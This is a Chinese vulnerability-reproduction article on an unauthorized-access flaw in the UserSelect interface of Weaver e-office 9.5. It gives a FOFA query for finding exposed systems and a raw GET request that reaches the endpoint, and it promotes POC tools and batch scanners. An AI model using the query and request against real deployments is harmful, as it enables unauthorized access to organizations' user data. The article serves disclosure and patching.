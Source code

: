 #  泛微e-office系统UserSelect接口存在未授权访问漏洞   
南风徐来  南风漏洞复现文库   2024-04-22 21:50  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 泛微e-office系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件,国内协同OA办公领域领导品牌,致力于为企业用户提供专业OA办公系统、移动OA应用等协同OA整体解决方案。  
## 2.漏洞描述  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件。泛微 E-Office 9.5版本存在代码问题漏洞，泛微e-office系统UserSelect接口存在未授权访问漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
泛微 E-Office  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZtszLHYVrnhcXic0cCGXibD2OEGjaAyfSWSOpJhecoGeD4hXEhlALtRxkQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
泛微e-office系统UserSelect接口存在未授权访问漏洞  
## 4.fofa查询语句  
  
app="泛微-EOffice"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/UserSelect/  
  
漏洞数据包：  
```
GET /UserSelect/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZt47xsK2tsa1TIsvka5t6GusYfoOmYRFmme16ZID3S4T6d9GHGg3AWdw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现129 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZtNBWA0LpOWbnGmiaQYIuZDWwoqQic35miaiae4AaABc4wWhyS0LPvnspeEA/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZtPdKHEmMoAgYySNia6B3Ksh5m0ibf3ms3bnLEzm5YMmFSxhrE862Y6Rcw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZtcsK0xRL7OgiaviciaDpI2mAbqpiboQdLYf7icX9P8bmPhOla0flJscPkicBg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZt0Ch7m0d1QPReibquoRtUBBWiapnwrsq5IhiaVgBZB1mOHbu6Guu8xC8ibw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZt1VXFPiaUX5nGkIaWl8k8ruWpXYK7gT6P9hQwNibnaNQaAXwNlfib4bMtQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZtaUtXanLuXJ2ecSeFcBiabIrg0icicKFF62knk2XkUaQnI8uyPZgO1c6ibA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YdWDC19MibDv1IdyrfNIxZtLsR4ylt6oybHA8zRb0bPrODC5L95SUKFkZVhbplS4ZksGIIDoa0Bfg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注官网更新补丁: https://www.e-office.cn/  
## 8.往期回顾  
  
[用友U8-Cloud api/hr接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486294&idx=1&sn=170fb1b72f2e33077f59120ee9ed73af&chksm=974b8651a03c0f476adbb39a43acef98e0aa994f35d091b9416e1376d98625182866b60f15c4&scene=21#wechat_redirect)  
  
  
[时空智友企业流程化管控系统formservice存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486294&idx=2&sn=b90cb034d55c1f6a53708dc904f5c00c&chksm=974b8651a03c0f4756f06ef278357fcac5fd852c5cfd093957d18c5222194fa2861dd26a566e&scene=21#wechat_redirect)  
  
  
  
  
